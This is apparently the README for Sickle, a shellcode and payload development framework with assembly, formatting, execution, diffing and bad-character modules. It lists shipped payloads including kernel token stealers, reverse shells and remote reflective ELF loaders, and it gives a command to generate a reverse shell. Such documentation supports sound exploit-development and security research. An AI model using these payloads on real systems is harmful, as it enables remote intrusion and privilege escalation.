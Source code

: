 # Sickle

![alt text](./docs/logo/panda_logo.png)

Sickle is a tool I originally developed to help me be more effective, in both developing and understanding shellcode. However, throughout the course of its development and usage It has evolved into a payload development framework. Although current modules are mostly aimed towards assembly, this tool is not limited to shellcode.

Currently sickle can assist in the following.

- Converting assembly instructions to machine code (opcodes)
- Executing bytecode, including generated payloads
- Formatting opcodes for a target language
- Bad character identification
- Linear disassembly
- Diffing

## Shellcode Generation

Sickle supports shellcode generation via the [Keystone Engine](https://www.keystone-engine.org/). Due to this being a newly added feature, payload support is limited. However, the goal is to add a basic reverse shell for each architecture and platform.

![alt text](./docs/screenshots/generation.gif)

## Diffing

Sickle includes a "diffing" module initially designed for analyzing shellcode stubs. The original "asm" mode performs linear disassembly diffs at both the assembly language and opcode levels separately.

![alt text](./docs/screenshots/diff_shellcode.png)

In addition, Sickle offers various modes for performing diffs, making it useful beyond shellcode development.

![alt text](./docs/screenshots/hexdump_diff.png)

## Shellcode Execution

One common task you may often perform is testing your shellcode. This process typically involves the following steps:

1. Compile the assembly language code.
2. Extract the shellcode and format it appropriately for your chosen wrapper.
3. Compile the wrapper.
4. Execute the wrapper.

Although these steps may seem minor, they can become time-consuming when done repeatedly. Sickle simplifies the process by automatically wrapping shellcode for quick testing, and the "run" module currently supports both Windows and Unix systems.

![alt text](./docs/screenshots/r.png)

## Disassembly

Sickle can also convert a binary file into extracted opcodes (shellcode) and then translate those into machine instructions (assembly). Note that this process only works with raw binary files and currently performs disassembly in a linear fashion.

![alt text](./docs/screenshots/disassemble.png)

In the example shown above the "disassemble" module disassembles a reverse shell designed by Stephen Fewer to assembly.

## Shellcode Extraction

Shellcode extraction was the first module, or rather, the core functionality for Sickle, as opcodes are interpreted differently depending on the wrapper used. JavaScript, for example, does not store and interpret shellcode in the same way as a C program would.

![alt text](./docs/gifs/format.gif)

Perhaps the biggest inspiration for this was `msfvenom`.

## Bad Character Identification

Although less common in 64-bit exploits, there may be instances where an exploit restricts the use of certain characters. This is where the "pinpoint" module excels, as it directly identifies and highlights the assembly instructions responsible for the identified bad character(s).

![alt text](./docs/gifs/pinpoint.gif)

# Module Based Design

Originally, this tool started as a single large script. However, as it evolved, I found myself needing to re-learn the code with each update. To address this, Sickle now follows a modular approach, allowing for new functionality to be added with minimal time spent re-learning the tool’s design.

```
$ sickle -l

  Shellcode                                                                        Description
  ---------                                                                        -----------
  windows/x64/kernel_token_stealer                                                 Kernel token stealing shellcode
  windows/x64/kernel_sysret                                                        Generic method of returning from kernel space to user space
  windows/x64/kernel_ace_edit                                                      Kernel shellcode to modify the _SECURITY_DESCRIPTOR of a process
  windows/x64/shell_reverse_tcp                                                    A TCP-based reverse shell over IPv4 that provides an interactive cmd.exe session
  windows/x86/kernel_token_stealer                                                 Kernel token stealing shellcode
  linux/aarch64/memfd_reflective_elf_tcp                                           TCP-based reflective ELF loader over IPV4 which executes an ELF from a remote server
  linux/aarch64/shell_reverse_tcp                                                  TCP-based reverse shell over IPV4 that provides an interactive /bin/sh session
  linux/x64/memfd_reflective_elf_tcp                                               TCP-based reflective ELF loader over IPV4 which executes an ELF from a remote server
  linux/x86/shell_reverse_tcp                                                      TCP-based reverse shell over IPV4 that provides an interactive /bin/sh session

  Modules             Description
  -------             -----------
  asm_shell           Interactive assembler and disassembler
  disassemble         Simple linear disassembler for multiple architectures
  diff                Bytecode diffing module for comparing two binaries (or shellcode)
  format              Converts bytecode into a respective format (activated anytime '-f' is used)
  run                 Wrapper used for executing bytecode (shellcode)
  badchar             Produces a set of all potential invalid characters for validation purposes
  pinpoint            Highlights opcodes within a disassembly to identify instructions responsible for bad characters

  Format              Description
  ------              -----------
  c                   Format bytecode for a C application
  java                Format bytecode for Java
  hex                 Format bytecode in hex
  num                 Format bytecode in num format
  powershell          Format bytecode for Powershell
  bash                Format bytecode for bash script (UNIX)
  nasm                Format bytecode for NASM
  raw                 Format bytecode to be written to stdout in raw form
  python3             Format bytecode for Python3
  cs                  Format bytecode for C#
  python              Format bytecode for Python
  uint8array          Format bytecode for Javascript as a Uint8Array directly
  hex_space           Format bytecode in hex, seperated by a space
  dword               Format bytecode in dword
  escaped             Format bytecode for one-liner hex escape paste
  javascript          Format bytecode for Javascript (Blob to send via XHR)
  perl                Format bytecode for Perl
  ruby                Format bytecode for Ruby
```

This approach allows each module the ability to generate detailed documentation for its functionality.

```
$ sickle -i -m run                            

Usage information for run

              Name: Shellcode Runner
            Module: run
      Architecture: Multi
          Platform: Multi
              Ring: 3

Author(s):
    wetw0rk

Tested against:
    Linux
    Windows

Description:
    
    Executes bytecode from a binary file (-r) or a payload module (-p) under the
    context of the currently running operating system and architecture. Meaning if
    you are running on AARCH64 bytecode will be interpreted as such and if your on
    x64 it will interpret it as x64 respectively.
    
Example:

    sickle.py -m run -r shellcode
```

This approach also includes documentation for shellcode stubs.

```
$ sickle -i -p linux/aarch64/shell_reverse_tcp

Usage information for linux/aarch64/shell_reverse_tcp

              Name: Linux (AARCH64 or ARM64) SH Reverse Shell
            Module: linux/aarch64/shell_reverse_tcp
      Architecture: aarch64
          Platform: linux
              Ring: 3

Author(s):
    wetw0rk

Tested against:
    Debian 14.2.0-6

Argument Information

  Argument Name        Argument Description                               Optional
  -------------        --------------------                               --------
  LHOST                Listener host to receive the callback              no
  LPORT                Listening port on listener host                    yes

Description:
    
    TCP-based reverse shell over IPV4 that provides an interactive /bin/sh
    session. Since this payload is not staged, there is no need for anything
    more than a Netcat listener.
    
Example:

    src/sickle.py -p linux/aarch64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=1337 -f c
```
